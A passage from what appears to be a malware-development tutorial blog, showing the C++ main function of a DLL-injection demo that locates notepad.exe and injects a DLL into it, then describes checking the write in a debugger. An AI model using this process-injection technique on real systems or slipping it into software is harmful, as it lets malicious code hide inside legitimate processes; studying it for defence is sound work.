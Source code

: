 Main function:

```cpp
int main()
  
{
  LPWSTR ProcessName;

  ProcessName = (LPWSTR)malloc((wcslen(L"notepad.exe") + 1) * sizeof(wchar_t));
  wcscpy(ProcessName, L"notepad.exe");

  DWORD* ProcID = (DWORD*)malloc(sizeof(DWORD));;

  HANDLE* hProcess = (HANDLE*)malloc(sizeof(HANDLE)); ;

  if (GetRemoteProcessHandle(ProcessName, ProcID, hProcess) == FALSE) {
    
    printf("Cannot find notepad.exe");
  }
  else {
    printf("Notepad.exe is at %d\n", *ProcID);
  }

  wchar_t myString[] = L"C:\\Users\\XXX\\Source\\Repos\\EnumProcesses\\x64\\Debug\\Dll1.dll";

  LPWSTR DllName = myString;

  InjectDll(hProcess, DllName);

  return 1;
}
```

> Make sure to specify the full path of your DLL.

## Executing

Now let's try to execute after compiling all of this together, put a breakpoint after the write operation and before the thread creation so we can validate the write.

![P2](/assets/images/malware-development/4-1.png)

After triggering the breakpoint we can see that it found notepad.exe.

![P3](/assets/images/malware-development/4-2.png)
![P4](/assets/images/malware-development/4-3.png)

